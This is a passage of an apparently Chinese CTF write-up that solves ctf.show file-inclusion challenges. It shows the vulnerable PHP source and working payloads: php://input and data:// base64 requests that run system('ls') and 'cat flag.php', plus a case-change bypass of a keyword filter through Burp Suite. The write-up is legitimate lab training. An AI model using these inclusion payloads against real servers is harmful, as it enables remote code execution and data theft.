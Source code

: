 ```
POST /?file=Php://input   HTTP/1.1

<?Php system("cat flag.php");?>
```

法三

data协议+base64加密

```
/?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpOw==   # <?php system('ls');

/?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs= # <?php system('cat flag.php');
```

### [web80]php伪协议POST

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:26:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

又替换了php，我们可以使用input协议，首先打开burpsuite开启拦截，然后在HackBar发POST包：
![image-20230710001413712](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230710001413712.png)

```
http://164bc5d8-06d4-4422-b19f-3ca65d68f6ef.challenge.ctf.show/?file=PHP://input
```

然后在bp拦截的报文末尾添加POST传参内容

```php
 <?php system('ls');?>
```
